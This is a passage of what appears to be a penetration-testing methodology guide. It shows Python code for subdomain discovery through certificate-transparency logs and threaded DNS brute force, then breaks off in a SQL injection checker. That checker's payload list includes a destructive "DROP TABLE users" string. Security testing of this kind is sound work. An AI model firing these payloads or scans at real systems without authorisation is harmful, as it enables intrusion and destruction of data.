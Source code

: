 #### Web Application Discovery
```python
# Automated subdomain discovery for large organizations
import requests
import subprocess
import threading

class AmazonScaleSubdomainDiscovery:
    def __init__(self, target_domain):
        self.target = target_domain
        self.subdomains = set()
        
    def certificate_transparency_search(self):
        """Use CT logs for subdomain discovery"""
        url = f"https://crt.sh/?q=%.{self.target}&output=json"
        response = requests.get(url)
        
        for entry in response.json():
            subdomain = entry['name_value']
            if subdomain.endswith(self.target):
                self.subdomains.add(subdomain)
    
    def dns_bruteforce(self, wordlist):
        """DNS brute force with threading for scale"""
        def check_subdomain(subdomain):
            try:
                result = subprocess.run(['nslookup', f"{subdomain}.{self.target}"], 
                                      capture_output=True, text=True, timeout=5)
                if "NXDOMAIN" not in result.stdout:
                    self.subdomains.add(f"{subdomain}.{self.target}")
            except:
                pass
        
        threads = []
        for word in wordlist:
            thread = threading.Thread(target=check_subdomain, args=(word,))
            threads.append(thread)
            thread.start()
            
            # Manage thread pool size for large-scale operations
            if len(threads) >= 50:
                for t in threads:
                    t.join()
                threads = []
```

### V - **Vulnerability Validation**

#### Manual Validation Techniques
```python
class VulnerabilityValidator:
    """Validate automated findings with manual techniques"""
    
    def validate_sql_injection(self, url, parameter):
        """Manual SQL injection validation"""
        payloads = [
            "' OR '1'='1",
            "'; DROP TABLE users; --",
            "' UNION SELECT null,null,null--"
        ]
        
        for payload in payloads:
            response = requests.get(f"{url}?{parameter}={payload}")
            
```